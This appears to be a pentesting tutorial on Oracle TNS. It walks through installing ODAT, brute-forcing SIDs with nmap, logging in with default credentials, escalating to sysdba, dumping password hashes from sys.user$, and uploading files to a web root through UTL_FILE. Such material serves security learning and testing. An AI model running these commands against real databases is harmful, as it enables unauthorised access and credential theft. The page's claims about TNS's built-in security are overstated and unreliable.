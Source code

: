 # Oracle TNS

**Oracle Transparent Network Substrate (TNS)** is a **communication protocol** designed for **secure interaction between Oracle databases and applications** over networks. It supports **various networking protocols**, such as **IPX/SPX and TCP/IP**, making it a **preferred choice for industries like healthcare, finance, and retail**. which work on **port 1521**

🔹 **Key Features:**

✅ **Built-in encryption** for securing transmitted data

✅ **Efficient database communication management**

✅ **Ideal for enterprise environments requiring high security**

**How Does TNS Secure Data?**

TNS **adds an extra security layer** over **TCP/IP**, making it **harder for attackers to intercept or manipulate data** in transit.

***

#### **Installing Oracle Pentesting Tools**

This **Bash script** installs tools for **enumerating and attacking Oracle databases**:

```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien -y
git clone <https://github.com/quentinhardy/odat.git>
cd odat/
git submodule init
git submodule update
wget <https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip>
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget <https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip>
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome
```

✅ **What this script does:**

1️⃣ **Installs required dependencies** (libaio1, python3-dev, alien)

2️⃣ **Clones ODAT tool** from GitHub

3️⃣ **Downloads and sets up Oracle Instant Client**

4️⃣ **Installs cx\_Oracle Python library** for database interaction

5️⃣ **Installs additional penetration testing tools** (scapy, passlib, pycryptodome)

***

**ODAT (Oracle Database Attacking Tool)** is an open-source penetration testing tool designed for:

* **Oracle database enumeration**
* **Exploiting SQL Injection & RCE vulnerabilities**
* **Privilege Escalation**

***

**Oracle Database Penetration Testing with ODAT & Nmap**

**1️⃣ Understanding Oracle TNS and SIDs**

* **TNS (Transparent Network Substrate):** A protocol used for Oracle database communication.
* **SID (System Identifier):** A unique name for a database instance. Clients use it to connect to the correct database.

**2️⃣ Scanning Oracle Services with Nmap**

*   Check if the Oracle **TNS Listener** (default port **1521**) is open:

    ```bash
    sudo nmap -p1521 -sV <target-IP> --open
    ```
*   Bruteforce the **SID** using Nmap’s `oracle-sid-brute` script:

    ```bash
    sudo nmap -p1521 -sV <target-IP> --open --script oracle-sid-brute
    ```

**3️⃣ Installing and Using ODAT for Enumeration**

**Install ODAT on a Kali-based system:**

```bash
sudo apt-get install libaio1 python3-dev alien -y
git clone <https://github.com/quentinhardy/odat.git>
cd odat/
git submodule init && git submodule update
pip3 install cx_Oracle pycryptodome
```

**Run ODAT to enumerate database components:**

```bash
./odat.py all -s <target-IP>
```

This can retrieve **database names, versions, user accounts, and misconfigurations**.

**4️⃣ Cracking Oracle Credentials**

If ODAT finds valid credentials (e.g., `scott/tiger`), log in with **SQL\*Plus**:

```bash
sqlplus scott/tiger@<target-IP>/XE
```

Check user privileges:

```sql
SELECT * FROM user_role_privs;
```

If the user has **SYSDBA** privileges, escalate access:

```bash
sqlplus scott/tiger@<target-IP>/XE as sysdba
```

**5️⃣ Extracting Password Hashes for Offline Cracking**

```sql
SELECT name, password FROM sys.user$;
```

Hashes can be cracked using **John the Ripper** or **Hashcat**.

**6️⃣ Exploiting File Upload via UTL\_FILE**

If UTL\_FILE is enabled, attackers can upload files to the server:

```bash
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s <target-IP> -d XE -U scott -P tiger --sysdba --putFile C:\\\\inetpub\\\\wwwroot testing.txt ./testing.txt
```

Verify the file upload:

```bash
curl -X GET http://<target-IP>/testing.txt
```
